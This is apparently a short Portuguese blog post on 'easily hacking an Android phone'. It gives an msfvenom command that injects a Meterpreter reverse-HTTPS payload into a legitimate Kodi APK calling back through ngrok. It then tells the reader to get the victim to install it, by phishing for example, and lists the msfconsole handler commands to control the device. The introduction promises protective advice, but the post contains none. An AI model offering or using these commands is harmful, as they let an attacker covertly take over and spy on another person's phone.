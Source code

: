 ```yaml
---
layout: post
title: Hackeando um celular com Android facilmente
subtitle: Estratégias de Hackeamento em Dispositivos Android
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/celular.jpg
share-img: /assets/img/path.jpg
tags: [Android]
---
```


 Métodos de Intrusão

Introdução:
O avanço tecnológico trouxe consigo não apenas comodidade, mas também desafios significativos em termos de segurança cibernética. Um dos temas mais prementes nesse contexto é o hackeamento de celulares. Este ensaio explora não apenas os métodos utilizados por hackers, mas também destaca medidas cruciais para proteger a privacidade e a segurança digital.

existem muitas ferramentas por ai poderosa mas aqui vai um exemplo,uma ferramenta simples e de codigo aberto com um apk em mãos e um simples comando podemos gerar uma copia identica de qualquer apk.

graças ao metasploit framework: vou usar kodi como exemplo

~~~

msfvenom -x kodi-20.2-Nexus-armeabi-v7a.apk -p android/meterpreter/reverse_https LHOST=ngrok LPORT=443 -o backdored.apk

~~~

agora tudo que precisamos é fazer a vitima instalar esse apk nao vou abordar isso nesse topico porque existem muitas maneiras de enganar alguem phishing,etc

depois disso toda vez que quisermos controlar a vitima basta abrir msfconsole e preparar o ambiente.


~~~

use multi/handler

set lhost ngrok

set lport 443

set payload android/meterpreter/reverse_https

run

~~~
 

fim!!!








